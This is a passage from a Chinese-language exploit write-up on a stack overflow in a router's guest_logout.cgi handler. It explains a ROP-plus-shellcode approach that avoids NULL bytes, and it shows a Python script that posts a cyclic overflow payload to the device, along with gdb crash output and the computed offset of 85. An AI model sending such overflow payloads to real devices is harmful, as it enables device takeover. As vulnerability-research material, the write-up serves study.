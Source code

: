 ```bash
 S2   0x61616161 ('aaaa')
 S3   0x61616161 ('aaaa')
 S4   0x61616161 ('aaaa')
 S5   0x61616161 ('aaaa')
 S6   0x61616161 ('aaaa')
 S7   0x61616161 ('aaaa')
 S8   0x61616161 ('aaaa')
 FP   0x7fee9458 ◂— 'aaaaaaaaaaa'
 SP   0x7fee9458 ◂— 'aaaaaaaaaaa'
 PC   0x61616161 ('aaaa')
```

## 漏洞利用

关于MIPS栈溢出的漏洞利用可以参考：[HWS赛题 入门 MIPS Pwn](https://xuanxuanblingbling.github.io/ctf/pwn/2020/09/24/mips/)，基本思想就是`ROP+shellcode`。不过这两道练习题的输入方式都是read()，而本漏洞的溢出点是sscanf，故如果payload中有NULL字节则会被截断，导致攻击失败，所以在payload中需要绕过00。

### 确定溢出长度

设置好调试环境后，使用`pwntools`的`cyclic`函数进行发包测试

```python
import requests
from pwn import *

url = "https://192.168.1.1/guest_logout.cgi"
payload = {"cmac":"12:af:aa:bb:cc:dd","submit_button":"status_guestnet.asp"+cyclic(100),"cip":"192.168.1.100"}
requests.post(url, data=payload, verify=False, timeout=1)
```

在gdb中看到劫持pc值为`0x77616161`，即`'aaaw'`

```python
pwndbg> c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x77616161 in ?? ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
───────────────────────────────────[ REGISTERS ]───────────────────────────────────
 PC   0x77616161 ('aaaw')
```

使用`pwntool`s中的`cyclic_find`函数，得到溢出长度为85

```python
➜  python
Python 2.7.16 (default, Oct 25 2019, 20:31:23) 
[GCC 4.2.1 Compatible Apple LLVM 10.0.1 (clang-1001.0.46.4)] on darwin
Type "help", "copyright", "credits" or "license" for more information.
>>> from pwn import *
>>> cyclic_find("aaaw")
85
```
